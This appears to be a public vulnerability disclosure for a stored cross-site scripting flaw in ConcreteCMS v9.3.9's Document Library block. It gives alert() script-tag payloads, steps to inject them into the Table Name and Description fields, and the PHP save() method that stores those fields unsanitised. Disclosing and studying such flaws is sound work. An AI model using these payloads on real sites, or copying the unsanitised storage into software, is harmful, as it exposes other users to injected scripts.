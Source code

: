 # Exploit Title: Concretecms v9.3.9 - Cross-Site Scripting (XSS)
## Date: 3/13/2025
## Vendor Homepage: https://github.com/concretecms/concretecms
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Concretecms
## Version: v9.3.9
## Exploit Description:
## ConcreteCMS v9.3.9 suffers from a Stored Cross-Site Scripting (XSS) vulnerability in the Table Name field、Table Description field when adding a Document Library block. This vulnerability allows attackers to cheat other users by injecting malicious scripts into web pages viewed by other users.

## ---------------------------------POC-----------------------------

```
<script>alert('Name');</script>
<script>alert('Description');</script>
```

1. Log in as a user with page editing privileges.
2. Click "add content to the page" in the top navigation.
3. Select the Document Library block , drag and drop it to the page.
4. Add <script>alert('...');</script> to the Table Name field、Table Description field and then click ADD,the xss vulnerability appears.

![](./concretecms-poc11.png)

#### Effect

![](./effect-document-library.png)

Potentially problematic source code:
```php
public function save($args)
    {
        $args += [
            'folderID' => null,
            'viewProperties' => null,
            'searchProperties' => null,
            'expandableProperties' => null,
            'fsID' => null,
            'setMode' => null,
            'tags' => null,
            'orderBy' => null,
            'displayLimit' => null,
            'maxThumbWidth' => null,
            'maxThumbHeight' => null,
            'heightMode' => null,
            'downloadFileMethod' => null,
            'fixedHeightSize' => null,
            'headerBackgroundColor' => null,
            'addFilesToSetID' => 0,
            'headerBackgroundColorActiveSort' => null,
            'headerTextColor' => null,
            'tableName' => '',
            'tableDescription' => '',
            'rowBackgroundColorAlternate' => null,
        ];

        $data = [
            'folderID' => $args['folderID'],
            'viewProperties' => json_encode(is_array($args['viewProperties']) ? $args['viewProperties'] : []),
            'searchProperties' => json_encode(is_array($args['searchProperties']) ? $args['searchProperties'] : []),
            'expandableProperties' => json_encode(is_array($args['expandableProperties']) ? $args['expandableProperties'] : []),
            'setIds' => json_encode(is_array($args['fsID']) ? $args['fsID'] : []),
            'setMode' => $args['setMode'] == 'all' ? 'all' : 'any',
            'onlyCurrentUser' => empty($args['onlyCurrentUser']) ? 0 : 1,
            'allowInPageFileManagement' => empty($args['allowInPageFileManagement']) ? 0 : 1,
            'allowFileUploading' => empty($args['allowFileUploading']) ? 0 : 1,
            'tags' => $args['tags'],
            'orderBy' => $args['orderBy'],
            'displayLimit' => $args['displayLimit'],
            'displayOrderDesc' => empty($args['displayOrderDesc']) ? 0 : 1,
            'maxThumbWidth' => (int) $args['maxThumbWidth'],
            'maxThumbHeight' => (int) $args['maxThumbHeight'],
            'enableSearch' => empty($args['enableSearch']) ? 0 : 1,
            'heightMode' => $args['heightMode'] == 'fixed' ? 'fixed' : 'auto',
            'downloadFileMethod' => $args['downloadFileMethod'] == 'force' ? 'force' : 'browser',
            'fixedHeightSize' => (int) $args['fixedHeightSize'],
            'headerBackgroundColor' => $args['headerBackgroundColor'],
            'addFilesToSetID' => 0,
            'headerBackgroundColorActiveSort' => $args['headerBackgroundColorActiveSort'],
            'headerTextColor' => $args['headerTextColor'],
            'tableName' => $args['tableName'],
            'tableDescription' => $args['tableDescription'],
            'tableStriped' => empty($args['tableStriped']) ? 0 : 1,
            'rowBackgroundColorAlternate' => empty($args['tableStriped']) ? '' : $args['rowBackgroundColorAlternate'],
            'hideFolders' => (int) !filter_var(array_get($args, 'showFolders'), FILTER_VALIDATE_BOOLEAN),
        ];
        if ((int) $args['addFilesToSetID'] > 0) {
            $fs = \FileSet::getByID($args['addFilesToSetID']);
            if (is_object($fs)) {
                $fsp = new \Permissions($fs);
                if ($fsp->canAddFiles() && $fsp->canSearchFiles()) {
                    $data['addFilesToSetID'] = $fs->getFileSetID();
                }
            }
        }
        parent::save($data);
    }
```